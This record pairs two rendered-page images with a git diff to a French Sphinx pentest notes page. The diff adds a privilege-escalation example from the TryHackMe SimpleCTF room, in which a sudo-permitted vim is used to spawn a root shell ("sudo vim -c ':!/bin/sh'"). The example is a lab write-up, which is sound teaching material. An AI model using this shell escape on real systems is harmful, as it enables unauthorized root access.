

Before and after one commit to Iole-Bri/misp_docs_2, a Sphinx documentation site: the page built from docs/source/src/pentest.md, in a window 1280 px wide and 900 px high, scrolled down 897 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
modif pentest.md

```diff
--- a/docs/source/src/pentest.md
+++ b/docs/source/src/pentest.md
@@ -82,3 +82,19 @@ Exemples :
     |_  start_date: 2021-09-24T15:18:11
 
     Nmap done: 1 IP address (1 host up) scanned in 138.91 seconds
+
+
+### Escalade de privilège
+
+Exemple :
+* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)
+    $ sudo -l
+    User mitch may run the following commands on Machine:
+    (root) NOPASSWD: /usr/bin/vim
+
+    $ sudo vim -c ':!/bin/sh'
+    '# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G
+    /bin/sh: 1: ot found
+    /bin/sh: 1: 2R: not found
+    '# whoami
+    root
```
